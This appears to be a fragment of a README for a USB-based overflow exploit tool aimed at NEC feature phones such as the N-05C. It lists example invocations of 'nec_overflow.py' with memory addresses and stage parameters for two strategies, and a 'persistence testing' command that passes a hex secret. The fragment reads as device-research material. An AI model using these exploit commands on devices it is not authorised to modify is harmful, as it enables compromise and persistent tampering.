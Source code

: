 E.g. N-05C and later (strategy: code overwrite)

```
python nec_overflow.py --vid 0409 --pid 02f8 --stage1 0x27400 --stage1_mask 0xFD000000 --stage2 0x2800000 --stage4 0x762000 --stage4_spam 0xe3a0f102
```

strategy: iplmts

```
python nec_overflow.py --iplmts --vid 0409 --pid 02f8 --stage1 0x270c4 --stage1_mask 0xFD000000 --stage2 0x20da97c --stage4 0x2080 --stage4_spam 0xe3a0f102
```

persistence testing

```
python persist_1.py --vid 0409 --pid 02f8 --secret 3e339064397c56f5e8f1284218add4777b13243f
```
